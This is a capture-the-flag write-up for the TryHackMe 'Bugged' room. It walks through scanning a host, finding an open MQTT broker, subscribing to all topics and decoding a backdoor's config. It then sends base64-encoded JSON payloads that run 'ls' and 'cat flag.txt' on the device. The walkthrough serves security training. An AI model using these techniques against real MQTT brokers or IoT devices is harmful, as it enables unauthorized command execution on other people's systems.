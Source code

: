 ```yaml
---
layout: post
title: TryHackMe/Easy/Bugged
abbrlink: 32f9e94546ac40b4b1238cc0478b0ba0
tags:
  - mqtt
  - iot
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Bugged
date: 1718692259741
updated: 1721507440702
---
```


<https://tryhackme.com/r/room/bugged>

# Scenario

John was working on his smart home appliances when he noticed weird traffic going across the network. Can you help him figure out what these weird network communications are?

**Note**: the machine may take 3-5 minutes to fully boot.

# Enumeration

## \[+] 10.10.37.7 - bugged.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.37.7 bugged.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.37.7
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

After the scan has been completed, we'll only find port 1883 open which is the default port for [MQ Telemetry Transport (MQTT)](https://mqtt.org/) protocol that IoT devices mainly use. We can also see some of the name/location and status of the device from our Nmap report.

![c25769cf279fcdac90e4bd6a87e97431.png](/resources/e69f906097c94afdbf39f6e68001a8e3.png)

## \[+] Port 1883 - MQTT

We can look up the MQTT protocol on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto) on how we can approach on pentesting this protocol.

First, we'll have to download a shell to interact with the MQTT protocol. I used [this Python-based version](https://github.com/bapowell/python-mqtt-client-shell). Then run the script using Python:

```sh
python mqtt_client_shell.py
```

In the MQTT shell, we have to set our connection to `bugged.thm` then run the `connect` command:

```sh
connection
host bugged.thm
connect
```

After a moment we should receive a connection:

![25f79b89fcb0745f5f393c0bd9803270.png](/resources/9cfc618791db427bbc19c9161890ab46.png)

In order to see the data that is being sent by the IoT devices, we will have to run the `subscribe` command. The following will subscribe us to all channels where we can see all of the IoT devices communications:

```sh
subscribe "#"
```

![8e8736d79fc620317bb345b8170da08f.png](/resources/8a6498250bc8405cadaa5f9526a5ccca.png)

Looking at the following incoming logs closely shows a Base64 encoded string with the word "config" in the topic:

![f7ef00d44ae7bed95304b638ae8be93a.png](/resources/8a35dca5becd473f88cdcfe7250ee9d0.png)

We can paste this into [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64\('A-Za-z0-9%2B/%3D',true,false\)\&input=J2V5SnBaQ0k2SW1Oa1pERmlNV013TFRGak5EQXROR0l3WmkwNFpUSXlMVFl4WWpNMU56VTBPR0kzWkNJc0luSmxaMmx6ZEdWeVpXUmZZMjl0YldGdVpITWlPbHNpU0VWTVVDSXNJa05OUkNJc0lsTlpVeUpkTENKd2RXSmZkRzl3YVdNaU9pSlZOSFo1Y1U1c1VYUm1MekIyYjNwdFlWcDVURlF2TVRWSU9WUkdOa05JWnk5d2RXSWlMQ0p6ZFdKZmRHOXdhV01pT2lKWVJESnlabEk1UW1WNkwwZHhUWEJTVTBWdlltZ3ZWSFpNVVdWb1RXY3dSUzl6ZFdJaWZRPT0nCg) to decode the string:

```json
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```

Now we have more information about this IoT device. We have the ID, the commands we can use, the pub and sub topics which will contain more information on what this device is doing.

Let's try to communicate with this device using the MQTT shell. First, we'll close our current connection and reconnect:

```sh
exit
connect
```

Next, we'll subscribe to the three new channels we found related to this IoT device:

```sh
subscribe yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config
subscribe U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
subscribe XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub
```

To use the commands we found, we have to start with the `publish` command then the name of the channel and the command. Here we will send the `HELP` command to the `XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub` channel:

```sh
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub HELP
```

After decoding the response from sending the `HELP` command, we receive an error but now we know what format we need to use to successfully execute commands:

![26fb84fedf114a0021f83f79cb58e347.png](/resources/8a61ecf12cd44ba89e9c1003ff449848.png)

```plaintext
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

Let's try to send the `ls` command to see if we can execute any system commands. The ID of the device can be found earlier when we decoded the first base64 message, `cmd` tells the device we want to run a system command and the `arg` is where we enter the command we want to run:

```json
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```

Then, we use [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64\('A-Za-z0-9%2B/%3D'\)\&input=eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAid2hvYW1pIn0) to encode it into base64:

```plaintext
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==
```

Back to the MQTT shell, we can now send our command to the IoT device:

```sh
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==
```

The decoded response we get from the server:

```json
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}
```

To read the flag, we have to change our command from `ls` to `cat flag.txt` and base64 encode it again:

```json
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}
```

Base64 encoded:

```plaintext
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=
```

MQTT command:

```sh
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=
```

Response from the server:

```json
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{[...]}\n"}
```
